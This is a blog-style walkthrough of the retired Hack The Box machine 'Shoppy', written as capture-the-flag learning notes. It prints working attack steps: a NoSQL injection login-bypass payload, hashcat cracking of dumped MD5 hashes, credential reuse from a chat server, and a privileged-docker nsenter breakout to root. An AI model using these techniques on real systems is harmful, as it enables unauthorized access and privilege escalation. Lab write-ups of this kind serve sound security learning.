







## Intro

I have been spending some time over the holiday break working on CTF challenges - including both Hack The Box, PicoCTF and learning a little binary exploitation.  Taking notes for my own review & learning seemed like a good opportunity to post up CTF walkthroughs and get back into the habit of blogging again.

So, here is the first of hopefully many walkthroughs I will post up as time permits, and when machines on Hack The Box are retired.

## Enumeration

As always, we connect to the HTB VPN using OpenVPN, and join the machine to be given an IP address.  All work is done from a Parrot OS VirtualBox VM.

Firstly, a quick nmap scan:

```bash
$nmap -sC -sV -o nmap/initial 10.10.11.180
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-25 15:38 AEDT
Nmap scan report for 10.10.11.180
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect res
```

Browsing to http://10.10.11.180 redirects to http://shoppy.htb, so I added this to my /etc/hosts file.

Browsing to http://shoppy.htb gives a landing page with a countdown:


Gobuster output using common.txt wordlist:

```bash
$gobuster dir -u "http://shoppy.htb" -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/12/25 15:53:38 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /./]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
/Login                (Status: 200) [Size: 1074]               

===============================================================
2022/12/25 15:53:49 Finished
===============================================================
```

## Foothold 

I attempted to run sqlmap against http://shoppy.htb/login, but kept getting timeout errors:

```
[17:43:29] [CRITICAL] connection timed out to the target URL or proxy. sqlmap is going to retry the request(s)
[17:44:59] [CRITICAL] connection timed out to the target URL or proxy
```

 I next ran sqlmap through burp suite and checked the intercepted traffic:

```bash
$sqlmap -u "http://shoppy.htb/login" --data "username=*&password=*" --proxy "http://127.0.0.1:8080" --headers="User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
```



At this point, it appeared to my novice eyes as though a WAF (web app firewall) was blocking SQL injection attempts (maybe?) as 'normal' login attempts result in a 302 redirect, not a 504 gateway timeout.

I did notice the timeouts only occur when injecting into user, not password -- so I suspected that this was the exploitable input field..

But the above was a modified intercepted request from Firefox with a legitimate user agent string along with other headers -- so perhaps not a WAF and something else?..

After a little while of unsuccessful SQL Injection both with SQLMap and y, I back tracked a little to look at other injection techniques and started reading [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

I then tried the following to see if I was dealing with some document database that could be injected into:

```
POST /login HTTP/1.1
Content-Length: 42
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Host: shoppy.htb
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

username=admin' || 1==1%00&password=foobar
```

The initial example of `username=admin' || 1==1//&password=foobar` gave a 504, but the above worked and gave the following response!:

```
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sun, 25 Dec 2022 07:38:44 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3Aw1vzR-3zSPV98eF-hiBqdfT8SFB4-Omf.s03gQG0EK%2F4m8xUI8cB0EP5xTTqOk7SEFv9W16yAxJY; Path=/; HttpOnly

Found. Redirecting to /admin
```

After the redirect I ended up at /admin:



The page looks fairly static, apart from the *Search for users* button which does a GET http://shoppy.htb/admin/search-users .


If i inject into this with `' || 1==1//` ,  I get two users in the download link that shows - http://shoppy.htb/exports/export-search.json:

```json
[
    {"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
    {"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```

After running hashcat against a file containing both MD5 sums:

```bash
$hashcat -a 0 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...


$hashcat --show hashes.txt 
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

I was unable to SSH into the machine with josh/remembermethisway, and here I got a little stuck.. I reviewed the server, looking for other clues but couldn't find much.  


I decided to scan all ports with `nmap -sC -sV -oN nmap/all -p- 10.10.11.180`, and saw 9093 was an open HTTP server



Searching around, it looked like Prometheus go metrics -- however there was nothing that appeared particularly useful.

I'll admit that here I 'cheated' and checked the HTB discussion thread for this box -- and saw people hinting at another subdomain.

I noticed when searching for some of the terms in the above prometheus alerts, particularly around playbooks, I saw reference to mattermost: [GitHub - mattermost/mattermost-plugin-playbooks: Mattermost Playbooks enable reliable and repeatable processes for your teams using checklists, automation, and retrospectives.](https://github.com/mattermost/mattermost-plugin-playbooks)

With this in mind, I ran a vhost scan in gobuster using SecList DNS lists..

```bash
$gobuster vhost -u "http://shoppy.htb" -w ~/SecLists/Discovery/DNS/*.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/zara/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/12/26 08:58:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]

```

Luckily the first wordlist found the subdomain, and I ended the scan and added mattermost.shoppy.htb to my /etc/hosts.   Now I'm able to use josh/remembermethisway credentials to log in to http://mattermost.shoppy.htb/:



After a little poking around, in the Deploy Machine channel we find credentials jaeger/Sh0ppyBest@pp!:



Immediately jumping to SSH, we now have a user flag!:

```bash
$ssh jaeger@shoppy.htb
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
jaeger@shoppy:~$ cat user.txt
4dab25e19cc209a12a72caddc545f46e
```

## Privilege Escalation

Checking sudo access, I can run /home/deploy/password-manager, which was mentioned somewhere in the mattermost chat:

```bash
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

```

Running a `strings /home/deploy/password-manager shows a credentials text file, which I cannot cat myself directly:

```bash
jaeger@shoppy:~$ strings /home/deploy/password-manager
<.. snip ..>
Welcome to Josh password manager!
Please enter your master password: 
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !

jaeger@shoppy:~$ cat /home/deploy/creds.txt
cat: /home/deploy/creds.txt: Permission denied
jaeger@shoppy:~$ ls -la /home/deploy/creds.txt 
-rw------- 1 deploy deploy 56 Jul 22 13:15 /home/deploy/creds.txt
```

So I am able to run the password manager, but need the master pass, or to somehow bypass this..

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: remembermethisway
Access denied! This incident will be reported !
```

In /home/deploy, there is a password-manager.cpp which we cannot read.  This is in line with the mattermost chat where Josh mentions creating a password manager in C++.

We have access to the compiled binary, so let's take a copy to play with locally:

```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
jaeger@shoppy.htb's password: 
password-manager                                                                    100%   18KB 454.9KB/s   00:00   
```

Taking a look at the decompiled main function in Ghidra, it looks like we call the += operator in order to concatenate and build a string stored in variable local_68, which we compare to local_48 (which is std::cin -- i.e. the standard input stream).  



So, the app expects "Sample" -- let's try that:

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

I can now ssh into the deploy account, and confirm the password manager logic above based on the c++ source:

```cpp
#include <iostream>
#include <string>

int main() {
    std::cout << "Welcome to Josh password manager!" << std::endl;
    std::cout << "Please enter your master password: ";
    std::string password;
    std::cin >> password;
    std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
    if (password.compare(master_password) == 0) {
        std::cout << "Access granted! Here is creds !" << std::endl;
        system("cat /home/deploy/creds.txt");
        return 0;
    } else {
        std::cout << "Access denied! This incident will be reported !" << std::endl;
        return 1;
    }
}
```

I tried clobbering cat in $PATH to privesc, when logged in as jaeger and entering the password -- but remembered sudoers is set so you cannot preserve the environment, and /home/deploy/password-manager only runs as the deploy user anyway.

I then remembered in matter most chat, there was mention of the deploy account being used and it would be deploying via docker.. So, let's see if we can access docker, if there are any images (HTB boxes do not have internet access, so cannot pull down container images from dockerhub), and if we can run a privileged container to try get root on the host.

Docker based privilege escalation is new to me, and not something I have experience with -- but I was able to consult the always excellent HackTricks - [Docker Breakout / Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)

Luckily, we have access to an alpine image we can use to spin up a privileged container.  Inside the container we run nsenter:

```bash
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   5 months ago   5.53MB
$ docker run -it --rm --pid=host --privileged alpine /bin/sh
/ #
/ # nsenter --target 1 --mount --uts --ipc --net --pid -- bash
root@shoppy:/#
root@shoppy:/# cat /root/root.txt
0961d847a56840c545b2f26d78796dc0

```

We get contexts from our init process (PID 1), and enter the IPC, network and PID namespaces -- which are located in /proc/1/ns/ within the container's filesystem.

Excellent, we have the root flag!...

# Conclusion

A fun little VM that required back tracking and checking assumptions a couple of times.  It's easy to jump to the conclusion of SQL injection and become fixated on this, but these assumptions need to be tested and confirmed early on.  I went down a little bit of a rabbit hole looking at WAF bypass techniques assuming the gateway timeouts were actually a WAF I needed to work around before SQL injection would work.

Fuzzing with fuff or similar early on and trying out different special characters while checking the HTTP response for a 302 may have helped confirm this was a NoSQL datbase.

Finding the mattermost virtualhost was also a little tricky, and sometimes you just have to rely on getting lucky with scans and using the right wordlist.. Although sticking to common lists made this easy.  I found the Prometheus logs after revisiting open ports with a full nmap scan, but didn't think much of it at the time -- but I should have searched more keywords here, which may have helped identify the mattermost virtual host without having to bruteforce using a wordlist.

Docker based privilege escalation and `nsenter` is not something I've seen or used before, so I'm keen to deep dive a little more.